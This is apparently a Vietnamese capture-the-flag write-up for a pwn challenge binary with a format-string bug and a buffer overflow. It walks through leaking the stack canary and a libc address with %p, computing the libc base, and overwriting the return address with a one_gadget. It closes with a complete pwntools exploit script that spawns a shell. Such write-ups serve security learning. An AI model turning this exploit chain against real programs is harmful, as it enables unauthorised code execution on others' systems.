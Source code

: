 # Format String + BOF


**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/521c0109-5ffa-4c19-bd00-2ccea83473bf)


hmm nhìn sơ qua thì ta thấy có 2 lỗi là **fmtstr** ở hàm **printf id với password** và **bof ở hàm read** nhập cho secret

**checks và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/fe11b8f9-86ba-4070-9cce-f48b33b232ec)


hmm tại đây ta thấy có **canary** ngăn ta khai thác lỗi **BOF**, nên việc đầu tiên ta phải leak được **canary** trước

đọc **ida** thì ta thấy ta cần nhập đúng 11byte cho **id** là **01234456789** và **password** là **&WPAbC&M!%8S5X#W**


![image](https://github.com/gookoosss/CTF.-/assets/128712571/720f7a28-66be-4455-bc78-5b0537e6162c)



tại hàm **printf** của id thì **ta sẽ lợi dụng lỗi fmtstr bằng cách dùng %p để leak ra canary** vì canary nằm trên stack trước rbp như trên ảnh

**oke sau khi leak đươc canary rồi thì ta thoải mái chạy đến rip , debug mãi thì thấy bài này làm ret2libc là hiểu quả nhất** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/52426fc0-5344-42e5-9fd6-b1deec719981)



tại rip thì thấy có trỏ đến 1 địa chỉ libc nào đó, **ta sẽ tiếp tục lợi dụng lỗi fmtstr bằng %p lần nữa để leak địa chỉ này từ đó tính được địa chỉ base của libc** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/dc2afc81-ee93-4bfa-9378-382b4cc6d893)

xong bước 1 rồi nè, h bước 2 ta tìm **one gadget** nữa là xong

***note:***

à tại đây ta cần biết thêm **1 kiến thức mới** nữa là **one_gadget**, hiểu đơn giản **one_gadget** trong file libc **là 1 cái offset trỏ đến shellcode mà chứa đầy đủ các thứ ta cần , rất đơn giản và nhanh chóng, tiện lợi**(hạn chế là không phải bài nào cũng dùng được)

![image](https://github.com/gookoosss/CTF.-/assets/128712571/2b0f23ee-841d-43b0-b520-72f2f2365841)

thử từng cái thì chọn cái thứ 2 là đúng :))

**script:**

```
#!/usr/bin/env python3

from pwn import *

p = process('./fmtstr4_patched')
exe = ELF("./fmtstr4_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

gdb.attach(p, gdbscript = '''
b*main+354
b*main+383

c
''')

input()

# leak canary and libc 

payload = b'01234456789' #id
payload += b'%21$p%23$p' #password

p.sendafter(b'ID: ', payload)
p.sendafter(b'Password: ',b'&WPAbC&M!%8S5X#W')

p.recvuntil(b'01234456789')
datas = p.recvuntil(b'Enter', drop = True).split(b'0x') # nhận canary và libc leak ra
canary = int(datas[1], 16)
libc_leak = int(datas[2], 16)
libc.address = libc_leak - 0x24083 # libc base 

log.info("Canary: " + hex(canary))
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

one_gadget = libc.address + 0xe3b01


payload = b'a'*0x38 + p64(canary) + p64(0) + p64(one_gadget)
p.sendafter(b'secret: ', payload )



p.interactive()

```

**ra rồi nè hehe**



![image](https://github.com/gookoosss/CTF.-/assets/128712571/aa1c33a3-c2cf-4730-ac20-ed332b5daa18)

